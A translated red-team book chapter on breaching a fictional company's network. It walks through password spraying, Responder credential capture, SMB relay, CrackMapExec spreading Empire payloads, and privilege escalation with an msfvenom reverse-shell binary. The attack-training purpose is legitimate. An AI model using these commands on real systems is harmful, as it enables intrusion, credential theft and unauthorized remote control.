# 第4章 带球——开始攻击网络

> 译者：[@Snowming](https://github.com/Snowming04)
> 
> 校对者：[@鶇](http://wp.blkstone.me)、[@leitbogioro](https://github.com/leitbogioro/)、@哈姆太郎、@匿名jack


在进行风险评估项目的第二天，你使用 nmap 扫描了目标的全部网段，还启动了漏洞扫描器，但运气不太好，你没有探测出任何 Web 应用程序的初始入口点。这让你感到有些失败，需要反思一下，重新回顾一下之前收集到的所有信息。因为你知道，一旦可以进入目标网络，就可以使用无数的技巧来获得更多的凭证、在域中漫游、利用 AD（活动目录）的特性，最后找到我们要找的东西。当然，这不是一件容易的事。因为你要绕过众多防火墙，还要欺骗管理员，最后还要擦除自己的痕迹。

在上一本书中，本部分着重于使用漏洞扫描器来发现漏洞并利用它们。这是通过使用诸如 Metasploit、打印机漏洞、心脏滴血、Shellshock、SQL 注入等常见漏洞的利用工具来实现的。最近一段时间，爆出了很多严重的远程代码执行漏洞，比如 永恒之蓝（MS017-10）、多个版本的 Jenkins 漏洞、Apache Struts 2、CMS 应用的代码执行漏洞等等。因为本书是以红队的视角来阐述的，因此我们不会过多地关注如何使用这些工具来攻击利用特定的漏洞。相反，我们将关注如何利用公司现有的应用程序，就地取材来发现漏洞，然后攻破公司网络。

在本章中，将集中讨论红队的战术，如何利用公司基础设施、获取身份凭证、探索内部网络以及在主机和网络之间进行漫游。我们将在不运行任何一个漏洞扫描器的前提下完成这项工作。

## 从外网寻找侵入对方系统的登陆凭证
作为一个红队成员，找到最初的攻击点可能很麻烦，需要耗费大量的资源。在上本书中，我们尝试过伪造受害者的身份验证页面、购买非常相似的域名来对目标实施钓鱼，以及编写自定义的恶意软件等不同的方法。

有时候，我告诉我的红队队员要保持简单的思想。很多时候，那些令人称赞的高级手段，反而不如一些简单低级的方法管用，最简单的方法往往是最有效的。

最基本的技术之一就是暴力破解密码。但是，作为红队的一员，我们必须考虑如何巧妙地做到这一点。随着公司的发展，公司使用了更多的应用程序和技术工具。对于攻击者来说，这无疑为他们拓宽了进攻的大门。当公司开始暴露在互联网上时，我们看到公司需要对电子邮件（如 Office 365或 OWA）、通信工具（如 Lync、XMPP、WebEx）、协作工具（如 JIRA、Slack、Hipchat、Huddle）和其他外部服务（如 Jenkins、CMS 站点、支持站点）进行身份验证。这些就是我们的目标突破口。

我们试图攻击这些服务器和服务的原因是，我们需要寻找能对受害者的 LDAP 或 AD 这些基础设施进行身份验证的工具。这可以通过 ADFS 方式、单点登录（SSO）方式或者直接使用 AD 域认证等不同的方式来完成。我们需要找到一些可以利用的公共凭证，以便继续进行下一步的攻击。在信息收集阶段，我们发现并识别了大量的电子邮箱地址和用户名帐号，我们将对这些获取到的信息进行一种叫“密码喷洒”（Password Spraying）的攻击。我们将针对所有不同的应用程序，尝试猜测基本密码，正如我们在现实世界的 APT 活动中看到的那样（ US-CERT 文章：http://bit.ly/2qyB9rb ）。

> 译者注：“密码喷洒攻击”（Password Spray Attack）并不等同于“密码爆破攻击”（Brute Force Attack）。事实上，这两种攻击是相反的。<br>在密码爆破攻击中，黑客选择一个易受攻击的 ID 并一个接一个地输入密码，希望有一些密码可以让他们进入。基本上，密码爆破是用多个密码尝试破解同一个 ID。而密码喷洒攻击，是用一个密码来尝试多个用户 ID，以便至少有一个用户 ID 被泄露。对于密码喷洒攻击，黑客使用社交工程或其他网络钓鱼方法收集多个用户 ID。通常情况下，至少有一个用户使用简单的密码，如12345678甚至是 p@ssw0rd。<br>在密码喷洒攻击中，黑客会为他或她收集的所有用户 ID 应用精心构造的密码。因此，密码喷洒攻击可以定义为将相同的密码应用于组织中的多个用户帐户，目的是安全的对其中一个帐户进行未授权访问。<br>暴力破解的问题在于，在使用不同密码进行一定次数的尝试后，系统可能会被锁定。为了避免这种情况，产生了收集用户 ID 并将可能的密码应用于它们的想法。使用密码喷洒攻击时，黑客也会采取一些预防措施。例如，如果他们尝试将 password1应用于所有用户帐户，则在完成第一轮后，他们不会立即开始将 password2应用于这些帐户。他们将在黑客攻击中留出至少30分钟的时间。<br>参考资料：[Password Spray Attack Definition and Defending yourself](https://www.thewindowsclub.com/password-spray-attack)

那么，为什么要针对**不同的**外部服务进行身份验证呢？这是因为：

- 有些身份验证程序不会记录从外部服务尝试验证的次数。
- 虽然我们通常看到电子邮件或 VPN 系统要求双因素验证（2FA），但面向外部的即时通讯系统可能不需要。
- 密码重用的可能性非常高。
- 有的时候，当使用 AD 账户多次重复登录失败时，外部系统并不会将此账户锁定。
  ​              

有很多工具可以实现密码喷洒攻击，但是，我们只关注其中的几个。第一个是来自 [Spiderlabs](http://bit.ly/2EJve6N) 的名为 `Spray` 的工具。尽管 Spray 使用起来有点复杂，但我非常喜欢它所支持的一些服务。例如，它支持 SMB、OWA 和 Lync（Microsoft Chat）。

要使用 Spray，你需要指定以下几个参数:

```shell
spray.sh -owa <targetIP> <usernameList> <passwordList> <AttemptsPerLockoutPeriod> <LockoutPeriodInMinutes> <Domain>
```

正如你将在下面的示例中看到的那样，我们使用 Spray 对 cyberspacekittens 上的一个 OWA 邮件服务器（该服务器现在已经下线了）进行密码破解，当它使用密码 Spring2018与用户名 peter 尝试进行配对时，成功的登进了系统。

我经常遇到的一个问题是，应该使用哪个密码进行尝试？因为在锁定帐号之前，只能不停的多次尝试密码。事实上这个问题没有正确答案，使用哪个密码非常依赖于这家公司的密码设置规定。我们过去可以使用一些简单密码进行尝试，比如“Password123”，因为总有一些人会因为图方便而使用简单密码。但随着人们安全意识的提高，现在现在越来越少人使用这种密码了，因而成功率也就变低了。现在的话，我们一般结合使用以下规则的一条到多条来构建我们的尝试密码：

- 月份和年份的数字组合。
- 当地的球队和球员的数字编号组合。
- 查看一些以前泄露出来的数据，找一些有没有目标公司的用户资料泄露，因为相同公司的用户可能会使用类似的密码。
- 公司名称+年份/编号/特殊的字符 (如!,$,#,@）

编好了密码之后，我们就可以24小时不间断缓慢地运行我们的账号破解程序，慢是为了避免触发任何帐号锁定。请记住，我们仅仅匹配成功一个账号就可以进入大门了！

<br> *此图是使用 Curl 对 OWA 进行身份认证的快速脚本*

配置 Spray 非常简单，而且其配置文件可以很容易地给其他类似程序参考使用。你需要做的是捕获登录密码时的 POST 请求（可以在 Burp Suite 中完成），复制所有请求数据，并将其保存到文件中。对于任何将要被破解的字段，你需要提供字符串“sprayuser”和“spraypassword”。

例如，在我们的例子中，`post-request.txt` 文件如下所示：

```
POST /owa/auth.owa HTTP/1.1

Host: mail.cyberspacekittens.com

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0

Accept: text/html，application/xhtml+xml，application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: https://mail.cyberspacekittens.com/owa/auth/logon.aspx?replaceCurrent=1&url=https%3a%2f%2fmail.cyberspacekittens.com%2fowa%2f

Cookie: ClientId=VCSJKT0FKWJDYJZIXQ; PrivateComputer=true; PBack=0

Connection: close

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

Content-Length: 131

destination=https%3A%2F%2Fcyberspacekittens.com%2Fowa%2F&flags=4&forcedownlevel=0
```

> 译者注：最后一个 `destination` 字段的内容本书的英文版本貌似显示不全，至少是我拿到的英文版本 PDF 显示不全。我只是简单的复制自 PDF，读者注意一下。

如前所述，spray.sh 的另一个好处是它还支持 SMB 和 Lync。另一种具备这个特性的工具称为 [Ruler](https://github.com/sensepost/ruler)，这个工具还可以对密码喷洒攻击得到的结果进行进一步处理。Ruler 是 Sensepost 安全团队编写的一个工具，它允许你通过 MAPI/HTTP 或 RPC/HTTP 协议与 Exchange 服务器交互。虽然我们主要讨论使用 Ruler 来进行密码破解/信息收集，但是这个工具也支持一些持久性漏洞利用攻击，我们将略微提及这点。

我们可以用的 Ruler 的第一个功能类似于 Spray，它通过对用户名和密码进行匹配来进行账号的破解。Ruler 将载入用户名列表和密码，并尝试查找登陆凭证。它将自动寻找 Exchange 服务器的关键配置并尝试查找登陆凭证。

运行 Ruler：

```shell
ruler --domain cyberspacekittens.com brute --users ./users.txt --passwords ./passwords.txt
```

 

一旦我们找到了一个密码，我们就可以使用 Ruler 来获取 Office 365的全局地址列表（GAL）中的所有用户，以查找更多的电子邮件地址及其所属的电子邮件组。

 

我们继续将获取的这些电子邮件地址通过上面提及的那些密码破解工具来进行破解的尝试，从而获得更多的身份凭证——这就和滚雪球一样。不过，Ruler 的主要用途是，一旦你有了身份凭证，你就可以利用 Office/Outlook 的一些功能来在受害者的电子邮件帐户上创建规则和表单。这里有一篇来自 SensePost 安全团队的文章 [outlook-forms-shells](https://sensepost.com/blog/2017/outlook-forms-shells/)，介绍了他们是怎样利用这些功能来执行包含 Empire payload 的宏文件的。

如果你决定不使用 Outlook 表单，或者该功能已经被禁用，我们的思路还可以回到对电子邮件的攻击。这可能会让你感到有点邪恶，因为你将使用这些普通用户的账号登录并阅读他们的所有电子邮件。当我们兴奋的阅读某个用户的电子邮件时，我们会想要和某个他似乎有点信任（但又不算好朋友）的人进行对话。既然已经有了信任的基础，我们就可以利用这个机会给他发送恶意软件。通常，我们会篡改一次会话，在里面夹带附件（如 Office 文件/可执行文件），然后重新发给他们，不过这次附件包含了我们的恶意 payload。在受信任的内网连接和电子邮件之中传递恶意软件，成功掩护了我们的身份，并使这次行动获得成功。

本书始终强调的一点是，整个攻击行动的目的是为了测试蓝队的威胁检测工具和应急响应流程的效率。我们行动的目标非常明确，就是观察他们是否能够有所警觉。又或者像法医解剖那样，仔细复盘行动中发生的一切。对于本节的实验设计，我的想法是验证公司是否能够确定有人正在窃取用户们的电子邮件。所以，我们要做的是使用 [Python 脚本](https://github.com/Narcolapser/python-o365)来获取所有被破坏的电子邮件。在许多情况下，这可能是千兆字节的数据！

### 高级选修实验

一个很好的练习是：攻击不同类型的的身份验证服务并对其进行密码尝试。尝试构建一个密码喷洒（Password Spraying）工具，用于测试针对 XMPP 服务、常见第三方 SaaS 工具和其他常见协议的身份验证。最好是在多个 VPS 服务器中执行此操作，所有 VPS 服务器都由一个主服务器控制。

## 通过网络移动

作为一名红队成员，我们希望尽可能安静地在网络中穿梭。我们希望使用“特征”来查找和利用有关网络、用户、服务等信息。通常，在红队活动中，我们不希望在内网环境中进行任何漏洞扫描相关的活动。有时我们甚至不希望对内部网络运行 nmap 扫描。这是因为许多公司已经非常擅长检测这些类型的扫描，特别是在运行漏洞扫描器这样动静很大的东西时。

在本节中，你将集中精力在不触发任何检测防护的情况下在 CSK 的网络进行横向漫游。我们假设你已经以某种方式进入内部网络并开始寻找你的第一组凭证，或者已经拥有了一个用户机器上的 shell。

### 建立环境——实验网络

这部分完全是自定义的，但由于微软的授权限制，这本书里没法给你已经制作好的的基于 Windows 的实验环境部署环境。所以至于怎么做，就得看你的动手能力了！

真正学会如何攻击目标环境的唯一方法是自己亲手构建一下目标环境。这能使你更清楚地了解你正在攻击什么，为什么攻击有时候有效，有时候无效，并了解某些特定工具或流程的局限性。那么你需要建立什么样的实验环境呢？基于客户端的环境，Windows 和 Linux（甚至 Mac）可能都需要一个。如果你正在攻击企业网络，你可能需要构建一个完整的 Active Directory 网络（域环境）。在下面的实验中，我们将学习如何为本书中的所有例子构建一个测试环境。

一个理想的 Windows 测试实验环境，你可以自己创建，大概是下面这样的:

- 域控制器-服务器：[Windows 2016域控制器]
- Web服务器：[IIS on Windows 2016]
- 客户端机器：[Windows 10]x3和 [Windows 7]x2
- 全部运行着 VMWare 的工作站中，工作站的内存至少16GB，SSD 硬盘500GB

配置和创建域控制器:

- 微软关于构建2016版服务器的说明:
  - https://blogs.technet.microsoft.com/canitpro/2017/02/22/step-by-step-setting-up-active-directory-in-windows-server-2016/
    - 短地址：http://bit.ly/2JN8E19
- 安装和配置 Active Directory 之后，使用：dsac.exe 创建用户和组
  - 创建多个用户
  - 创建组并分配给用户（下面是分组）：
    - Space	
    - Helpdesk
    - Lab

设置客户端机器（Windows 7/10）加入域：

- 将所有机器都打好系统补丁
- 将机器连接到域
  - https://helpdeskgeek.com/how-to/windows-join-domain/
- 确保添加一个域用户，该用户能够作为本地管理员在每个系统上运行。这可以通过将该域用户添加到本地机器上的本地 administrators 组来实现。
- 在每个主机上启用本地管理员并设置密码

将 GPO（组策略）设置为:

- 禁用防火墙 ( https://www.youtube.com/watch?v=vxXLJSbx1SI ) 
- 禁用 AV( http://bit.ly/2EL0uTd )
- 禁用系统自动更新
- 将 Helpdesk 用户组添加到本地管理员组
- 仅允许域管理员、本地管理员、Helpdesk 登录( http://bit.ly/2qyJs5D )
- 最后，将 GPO 设置同步到主域

将每个操作系统的所有用户设置为自动登录（这会使得攻击测试更加容易）。每次机器启动或重新启动时，它都会自动登录，这样我们就可以轻松地进行攻击并从内存中提取凭证：

- https://support.microsoft.com/en-us/help/324737/how-to-turn-on-automatic-logon-in-windows
  - 短地址：http://bit.ly/2EKatIk

设置 IIS 服务器并配置 SPN：

- https://www.rootusers.com/how-to-install-iis-in-windows-server-2016/
  - 短地址：http://bit.ly/2JJQvRK
- https://support.microsoft.com/en-us/help/929650/how-to-use-spns-when-you-configure-web-applications-that-are-hosted-on
  - 短地址：http://bit.ly/2IXZygL

## 在内网中没有凭据

假设你无法通过探测外部服务获得任何密码，因此决定潜入大楼内部。你等到午饭后，潜入 Cyber Space Kittens 的办公室，找到吸烟室。即使你不抽烟，但你也知道抽烟的人有结伙心理。你点上一支烟，但是可以不和他们说话，但当他们走进他们的大楼时，你就可以跟着他们一起进去，轻松极了！

既然你已经闯入了 CSK 的内部环境，你可不想在那里呆太久被抓住。你拿出你非常信任的 drop box，找到一间空办公室，把它插上网络，检查你的手机，看看它是否正确传回了 beacon 到了你的家中，确认之后迅速逃回安全的地方。

当你汗流浃背地回到家时候，迅速地找到你的笔记本电脑，登陆你的 VPN 服务器，当你看到那个 beacon 还在连接家里的时候，你就可以松一口气了。现在你可以现在用 SSH 连接 beacon，可以慢慢地去拓展受感染主机的内部网络，在多个主机之间移动，并尝试拿到你所关心的数据。

### Responder

就像在上一个活动中一样，我们使用 [Responder](https://github.com/lgandx/Responder) 在网络上侦听并伪造请求以获得网络上的凭据。回顾一下上本书，当网络上的系统执行查找 DNS 主机名失败时，受害者系统就会使用 Link-Local Multicast Name Resolution（简称 LLMNR）和 Net-BIOS Name Service（NBT-NS）进行回退 DNS 名称解析。当受害者的电脑无法进行 DNS 查找时，他就会开始询问网络上的任何人是否知道该主机名的解析方法。

一个简单而通用的例子：假设你电脑里有一个固定的共享硬盘驱动器目录，为：\cyberspacekittenssecretdrive\secrets。有一天，IT 部门从网络中删除了共享驱动器，它就不存在了。但由于名为 cyberspacekittenssecretdrive 的服务器仍然有一个挂载的驱动器，因此系统将不断询问网络是否有人知道此驱动器并回应它的 IP。虽然现在这种文件共享示例可能很少见，但是，由于以前连接的系统很可能不再存在于网络上，所以这个问题仍然会发生。我们已经从已挂载的驱动器、具有硬编码服务器的应用程序以及许多次的错误配置中看到了这一点。

我们可以使用像 Responder 这样的工具来利用那些寻找有主机名的系统，并使用我们的攻击服务器对其进行响应。更好的是，Responder 可以更进一步，充当 WPAD（Web Proxy Auto-Discovery Protocol，Web 代理自动发现协议）服务器，通过我们的攻击者服务器代理所有数据，但这是另一种攻击了。

- cd /opt/Responder
- ./Responder.py -I eth0 –wrf

现在，因为我们处于 Windows 的企业环境中，我们可以假设它很可能正在运行 Active Directory（活动目录）。因此，如果我们能够响应来自受害者主机的 DNS 查找请求，我们就可以使他们的系统连接到我们的 SMB 共享服务。由于它们正在连接到 \cyberspacekittenssecretdrive 驱动器，因此我们将强制受害者使用他的 NTLMv2 凭证（或缓存的凭证）进行身份验证。我们捕获的这些凭证不是直接的 NTLM 哈希，而是 NTLM 请求/响应哈希（NTLMv2-SSP）。这些哈希表的唯一缺点是，破解它们的速度要比普通的 NTLM 哈希表要慢得多，但是相比于我们要进行的大型凭证爆破动作来说，这不是一个大麻烦。



我们可以获取 NTLMv2哈希，将其传递给本地的 hashcat 程序破解此密码。在 hashcat 中，我们需要指定散列格式 “-m”（ https://hashcat.net/wiki/doku.php?id=example_hashes ）为 Net-NTLMv2 。

- hashcat -m 5600 hashes\ntlmssp_hashes.txt passwordlists/*

现在，假设我们并不是真的想破解哈希，或者我们不介意提醒用户有一些值得可疑的地方。我们所能做的是强制一个基本身份验证弹出窗口，而不是采用 `-F`（ForceWpadAuth）和 `-b`（basic auth）的要求使用 Net-NTLMv2凭据。

- python ./Responder.py -I eth0 -wfFbv



从上面的图像中可以看到，用户将被提示输入用户名和密码，大多数人只是按部就班的按提示输入。一旦他们提交了他们的用户名和密码，我们将能够捕获他们的密码明文!



### 更好的 Responder（MultiRelay.py）

使用 Responder 和破解 NTLMv2-SSP 哈希的问题是，破解这些哈希所需的时间可能很长。更糟糕的是，我们所处的环境中的管理员的密码可能是20多个的字符。那么，在这些情况下我们能做什么呢？如果所处环境不强制执行 SMB 签名（ 我们可以通过快速的 nmap 脚本扫描找到 - https://nmap.org/nsedoc/scripts/smb-security-mode.html ），我们可以使用一个巧妙的小技巧来重新播放捕获的 SMB 请求。

Laurent Gaffie 在 Responder 中加入了一个处理身份验证重放攻击的工具。根据 Laurent 的网站描述，MultiRelay 是一个强大的渗透测试实用程序，包含在响应程序工具的文件夹中，使你能够在选定的目标上执行目标 NTLMv1 和 NTLMv2 中继器。目前已经实现多中继将 HTTP、WebDav、代理和 SMB 身份验证传递给 SMB 服务器。这个工具可以定制为接受一系列用户账户信息来中继到一个目标。这背后的概念是只针对域管理员、本地管理员或特权帐户。”[http://g-laurent.blogspot.com/2016/10/introducing-responder-multiray-10.html] 

从较高的层面来看，MultiRelay 不会强制受害者对我们的 SMB 共享进行身份验证，而是将任何含有身份验证的请求转发给我们选择的受害者主机。当然，中继用户需要有另一台机器的访问权限；如果攻击成功，我们不需要处理任何密码和哈希破解。首先，我们需要配置我们的 Responder 和 MultiRelay：
- 编辑 Responder 配置文件以禁用 SMB 和 HTTP 服务器
  - 编辑 Responder.conf
  - 将 SMB 和 HTTP 更改为 Off 
- 开始 Responder
  - python ./Responder.py -I eth0 -rv
- 在一个新的终端窗口中启动多中继
  - /opt/Responder/tools
  - ./MultiRelay.py -t <target host> -c <shell command> -u ALL

一旦可以实现通过中继连接到受害者主机，我们就需要考虑要在受害者的主机上执行什么操作。默认情况下，MultiRelay 可以生成一个比较基础的 shell，但我们也可以自动执行 Meterpreter PowerShell payloads、Empire PowerShell payloads、dnscat2 PowerShell payloads、PowerShell 脚本（用于下载和执行 C2代理)、Mimikatz，或者只是运行 calc.exe 作为测试娱乐。




参考文献

- http://threat.tevora.com/quick-tip-skip-cracking-responder-hashes-and-replay-them/

### PowerShell Responder

一旦我们攻击进了 Windows 系统，我们就可以在受害者机器上使用 PowerShell 进行 Responder 攻击。原始 Responder 的两个功能都可以通过以下两个工具执行：

- Inveigh - https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1
- Inveigh-Relay

更简单的是，这一切都已经集成在 Empire 中了。

## 没有凭据的用户枚举

一旦进入了内网中，我们可以使用 Responder 来获得凭证或 shell，但有时也会发现同时启用 SMB 签名和破解 NTLMv2 SSP 是没有实质进展的。那就是我们退一步，从更基础的开始。在不主动扫描网络的情况下，我们需要获得一个用户列表（可能是用于密码爆破，甚至是内网钓鱼）。 

一种选择是开始针对域控制器枚举用户。如果是早些时候（回到2003年），我们可以尝试执行 RID 循环来获得所有用户帐户的列表。虽然现在不可用了，但爆破帐户还有其他选择。一种选择就是利用 Kerberos：

- nmap -p88 --script krb5-enum-users --script-args krb5-enum-users.realm=“cyberspacekittens.local”,userdb=/opt/userlist.txt <Domain Controller IP>


我们将需要提供一个要测试的用户名列表，但是由于我们只是查询 DC（域控制器）而没有对其进行身份验证，因此通常此行动不会被检测。现在，我们可以采用这些用户帐户，并再次开始密码猜解!

## 使用 CrackMapExec（CME）扫描网络

如果我们还没有成功入侵进一个系统，但是我们确实通过 Responder、错误配置的 Web 应用程序、暴力破解或通过打印机获得了登录凭证，那么我们可以尝试扫描网络，看看这个帐户可以登录到哪里。使用像 CrackMapExec（CME）这样的工具进行简单的扫描可以帮助找到内部网络上的初始入口点。

过去，我们使用 CME 扫描网络、通过网络上的 SMB 进行标识/身份验证、对许多主机远程执行命令，甚至通过 Mimikatz 提取明文凭证。Empire 和 CME 都拥有了一些新特性，我们可以利用 Empire 的 REST 特性。在下面的场景中，我们将使用其 REST API 启动 Empire，在 CME 中配置密码，让 CME 连接到 Empire，使用我们拥有的单一凭证扫描网络，最后，如果成功完成身份验证，则自动将 Empire 的 payload 推送到远程受害者的系统。如果你有一个 helpdesk 或高权限帐户，那就准备好加载 Empire shell 吧！

- 启动 Empire 的 REST API 服务器
  - cd /opt/Empire
  - ./empire --rest --password ‘hacktheuniverse’
- 更改 CrackMapExec 密码
  - 打开 /root/.cme/cme.conf
  - password=hacktheuniverse
- 运行 CME 来生成 Empire shells
  - cme smb 10.100.100.0/24 -d ‘cyberspacekittens.local’ -u ‘<username>’ -p ‘<password>’ -M empire_exec -o LISTENER=http





## 在攻陷你的第一台机器之后

当你通过社会工程、drop box、Responder、攻击打印机或通过其他攻击获得对主机的访问权限后，下一步要做什么？这是一个非常重要的问题。

在过去，你需要做的一切，是了解你身在何处和周边的网络环境。我们可能首先运行类似于“netstat -ano”的命令来查找受害者的服务器、域和用户的 IP 范围的位置。我们还可以运行命令，如 `ps` 或 `sc queryex type= service state= all | find  “_NAME”` 列出所有正在运行的服务，并寻找杀毒软件或其他主机基础保护。下面是一些我们最初可能运行的其他示例命令：

网络信息:

- netstat -anop | findstr LISTEN
- net group “Domain Admins” /domain

流程列表:

- tasklist /v

系统主机信息:

- sysinfo
- Get-WmiObject -class win32 operatingsystem | select -property * | exportcsv c:\temp\os.txt
- wmic qfe get Caption，Description，HotFixID，InstalledOn

简单的文件搜索:

- dir /s *password*
- findstr /s /n /i /p foo *
- findstr /si pass *.txt | *.xml | *.ini

来自共享/挂载驱动器的信息:

- powershell -Command “get-WmiObject -class Win32_Share”
- powershell -Command “get-PSDrive”
- powershell -Command “Get-WmiObject -Class Win32_MappedLogicalDisk | select Name， ProviderName”

让我们现实一点，没有人有时间记住所有的命令，但是我们很幸运！我相信，我相信我们可以在一个名为 [RTFM.py](https://github.com/leostat/rtfm) 的工具中轻松搜索到这些命令，这是 [@leostat](https://github.com/leostat) 基于 RTFM 书籍(很棒的资源)创建的一个快速查询的 Python 脚本，其中包含大量这些方便的命令。

- 更新并运行 RTFM
  - cd /opt/rtfm
  - chmod +x rtfm.py
  - ./rtfm.py -u
  - ./rtfm.py -c ‘rtfm’
- 搜索所有标签
  - ./rtfm.py -Dt
- 查看每个标记的所有查询/命令。我喜欢用的一个是枚举类
  - ./rtfm.py -t enumeration | more



现在，RTFM 非常广泛，有许多不同的有用命令。这是一个不断快速更新的优秀的资源。

这些都是我们为了获取信息而一直在做的事情，但是如果我们能从环境中获得更多呢？使用 PowerShell，我们可以获得所需的网络和环境信息。任何支持 C2 的工具都能轻松执行 PowerShell ，因此可以使用 Empire、Metasploit  或 Cobalt Strike 来执行这些操作。在下面的例子中，我们将使用 Empire ，你也可以尝试其他工具。


## 权限提升

从普通用户到高权限帐户有很多不同的方式。

未被引用服务路径:
- 这是一个相当简单和常见的漏洞，其中服务可执行路径没有被引号括起来。这是很容易被利用的，因为如果路径周围没有引号，我们就会利用当前服务。假设我们有一个服务被配置为执行 C:\Program Files (x86)\Cyber Kittens\Cyber Kittens.exe。如果我们有 CK 文件夹的写入权限，我们可以将其替换为 C:\Program Files (x86)\Cyber Kittens\Cyber.exe（注意，原名称中的 Kittens.exe 消失了）的恶意软件。如果服务在系统上运行，我们可以等到服务重新启动，并让我们的恶意软件作为一个 `system` 帐户运行。
- 如何找到易受攻击的服务路径:
    - 通过 wmic 服务获取名称、注意 displayname、pathname、startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\" | findstr /i /v """
    - 寻找 BINARY_PATH_NAME

查找服务中存在的不安全的注册表权限:
- 识别允许更新服务映像路径位置的弱权限账户

检查 AlwaysInstallElevated 注册表项是否已启用：
- 检查 AlwaysInstallElevated 注册表项，该注册表项指示.msi 文件应以较高的权限 ( NT AUTHORITY\SYSTEM ) 安装
- https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/always_install_elevated.rb

请注意，我们并不需要手动完成这些操作，因为别人已经创建了一些好的 metasploit 和 PowerShell 模块，特别是针对 Windows 的模块。在下面的示例中，我们将查看 [PowerUp PowerShell 脚本](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/PowerUp.ps1)。在这种情况下，脚本与 Empire 一起在所有常见的错误配置区域运行查找，比如允许普通用户获得本地管理或系统帐户。在下面的示例中，我们在受害者系统上运行这个程序，发现它有一些本地系统的未引用服务路径。现在，我们可能无法重新启动服务，但我们应该能够利用这个漏洞，等待服务重启。

- Empire PowerUp 模块:
  - usermodule privesc/powerup/allchecks



最突出的是:

- ServiceName： WavesSysSvc
- Path： C:\Program Files\Waves\MaxxAudio\WavesSysSvc64.exe
- ModifiableFile： C:\Program Files\Waves\MaxxAudio\WavesSysSvc64.exe
- ModifiableFilePermissions： {WriteOwner, Delete, WriteAttributes, Synchronize…}
- **ModifiableFileIdentityReference： Everyone**
- StartName： LocalSystem

看起来任何人都可以编写 WavesSysSyc 服务。这意味着我们可以将 WaveSysSvc64.exe 文件替换为我们自己的恶意二进制文件:

- 创建一个 Meterpreter 二进制文件（后续的文章将讨论如何绕过杀毒软件）
  - msfvenom -p windows/meterpreter/reverse_https LHOST=[ip] LPORT=8080 -f exe > shell.exe
- 使用 Empire 上传二进制文件并替换原始二进制文件
  - upload ./shell.exe C:\users\test\shell.exe
  - shell copy C:\users\test\Desktop\shell.exe “C:\ProgramFiles\Waves\MaxxAudio\WavesSysSvc64.exe”
  - 重新启动服务或等待其重启

